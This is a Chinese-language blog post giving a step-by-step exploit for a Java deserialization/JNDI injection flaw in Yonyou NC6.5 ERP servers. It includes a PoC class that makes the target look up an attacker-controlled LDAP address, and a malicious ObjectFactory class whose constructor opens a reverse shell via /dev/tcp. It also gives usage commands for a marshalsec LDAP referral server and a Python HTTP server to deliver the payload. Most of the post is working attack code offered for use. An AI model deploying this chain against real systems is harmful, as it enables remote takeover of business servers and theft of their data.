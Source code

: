 ```yaml
---
layout: post
title: "用友NC6.5java反序列化"
date: 2021-03-13
wrench: 2021-01-24
author: Bin4xin
toc: true
categories:
    - blog
tags:
    - 反序列化
permalink: /blog/2021/yonyou-nc6.5-java-underser/
---
```


## 零： 用友nc6.5反序列化依赖jar包

### 0x01：攻击java代码

```java
import nc.bs.framework.common.NCLocator;

import java.util.Properties;


public class poc {

    public static void attack(String url, String jndipath) {
        Properties env = new Properties();
        if (!url.startsWith("http")) {
            url = "http://" + url;
        }
        env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
        NCLocator locator = NCLocator.getInstance(env);
        locator.lookup(jndipath);
    }

    public static void main(String[] args) {
        attack("http://192.168.1.1:81", "ldap://192.168.1.2:1099/remote");
    }
}
```
运行起来主要报`classNotFound`，必需第三方jar包如下：

- ncdepend.jar
- log4j-1.2.15.jar
- log.jar
- 部分依赖jar包在安装完nc6.5系统后，一般在`C://yonyou//home//lib//`目录下，前提需要有nc6.5的安装包；或者下载仓库内的依赖包：
    - *[点击以了解yonyou-nc6.5-lib](https://github.com/Bin4xin/bigger-than-bigger/blob/master/yonyou-nc6.5-lib/README.MD)*
        - 本机运行环境

        ```
        java version "1.8.0_181"
        Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
        Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)

        javac 1.8.0_181
        ```

- 学习教程[*README*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/yonyou-nc6.5-lib/README.MD)
- 下载
  - 单jar包：点击[*ncdepend.jar*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/yonyou-nc6.5-lib/ncdepend.jar)链接 -> Download.
  - 整包[*yonyou-NCv6.5-lib.zip*](https://github.com/Bin4xin/bigger-than-bigger/releases/tag/yonyou-ncv6.5)链接 -> 单击链接下载

```
[anonymous] DEBUG  - Invoke nc.bs.framework.server.RemoteMetaContext.lookup write info to server spend time: 188 
Exception in thread "main" nc.bs.framework.exception.FrameworkIOException: Remote request error
```

### 0x02：远程利用java恶意代码

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.Serializable;
import java.util.Hashtable;

public class remote implements ObjectFactory, Serializable {

    public remote() {
        try{
            java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

### 0x03：使用方法

- Jetbrains IDEA ：`file -> New -> Project -> Java`
    - *[点击以了解IDEA运行JAVA项目DEMO](https://blog.csdn.net/oschina_41790905/article/details/79475187)*
    - `src目录 -> New -> Java Class -> poc.java`即可；
    - `Project Structure -> Librabries -> + `添加lib文件夹即可；
- 恶意LDAP：`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.2:8000/#remote" 1099`
    - *[点击以了解marshalsec](https://github.com/mbechler/marshalsec)*
- HTTP SERVER(remote.class)：`python3 -m http.server`
- 填入主方法下`attck url & jndipath` -> `run poc.main()`即可。
- enjoy.

### 0x04：参考链接

- [用友NC反序列化 简单分析](https://blog.sari3l.com/posts/608d18f0/#jwdp)
- [用友nc6.5详细安装过程](https://blog.csdn.net/weixin_38766356/article/details/103983787)

